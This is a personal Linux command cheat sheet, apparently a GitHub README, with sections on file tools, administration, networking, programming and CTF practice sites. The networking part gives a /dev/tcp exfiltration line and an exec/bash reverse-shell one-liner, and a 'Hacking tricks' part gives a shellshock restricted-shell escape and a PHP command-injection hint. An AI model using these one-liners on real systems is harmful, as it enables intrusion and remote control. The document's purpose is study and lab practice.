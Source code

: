 # Linux cheat sheet 
A quick reference for less commonly used commands and tricks.

## Useful One-Liners

    * Checking md5 sums: 
    For macos:
        `curl -s https://site.com/md5sumfile.md5 && md5 -q /path/to/object`
    For Linux:
        `echo "$(curl -s https://amazon-ecs-cli.s3.amazonaws.com/ecs-cli-linux-amd64-latest.md5) /usr/local/bin/ecs-cli" | md5sum -c -`

## File Management
**`xxd`**
    Create hex dumps

**`strings`**
    Good for getting readable text out of dumps

**`uniq`**
    Isolate unique lines in file

**`diff`**
    Examine file differences. vimdiff better for extensive edits

**`patch`**
    Apply changes to files

**`mkfifo`**
    first in first out pipe. 

## Administration
**`adduser`, `addgroup`**
    Prefer this over useradd/groupadd

**`groups`**
    What groups does the user belong to

**`usermod`**
    To add a user to groups:
        `usermod -aG [groups to add] [user]

**`id`**
    If you need queries beyond `groups`

**`dpkg`**
    For deb files. `-r` to remove things

## Networking
**`nmap`**
    Port scanning. 

**`nc` or nmap's `ncat`**
    Swiss army knife for network testing.

**`telnet`**
    Deprecated, but useful for port testing

**`openssl`**
    Openssl utility: key management, cert generation, etc.

**`/dev/tcp`**
    Can redirect things through network connections with `/dev/tcp/"ip"/"port"`. Not
    a real file, but more of a bash construct. Useful injection command. Has udp variant too. 
    ex. `bash -c "id &> /dev/tcp/127.0.0.1/80"`

**`exec "file-descriptor"<>"file"`**
    Can be used to create a read-write file for network communication in lieu netcat.
    Ex. `exec 134<>/dev/tcp/127.0.0.1/30002; bash <&134 >&134 2>&1 &` will open up
    an interactive shell. Just have a listener on port 30002 of the 127.0.0.1 machine

## Programming
**`ldconfig`**
    Can see installed libs, etc. `-p` to print

**`ldd`**
    Useful to find what a program is linked against.

**`checkinstall`**
    For removing packages built from source with no uninstall hook

## Hacking tricks

**shellshock**
    `ssh user@host '() { :;}; echo BAD CODE'` allows an authorized user with an authorized key
    to execute restricted commands. Good for restriced shell escalating.

  **PHP**
    Somebody using passthru(), exec(), or system() can possibly be exploited if they aren't
    using escapeshellarg().

## Sites

https://overthewire.org
https://www.scip.ch/en/?labs.20181206
https://hackthebox.eu
https://root-me.org
https://lolbas-project.github.io/#
https://gtfobins.github.io/#+shell
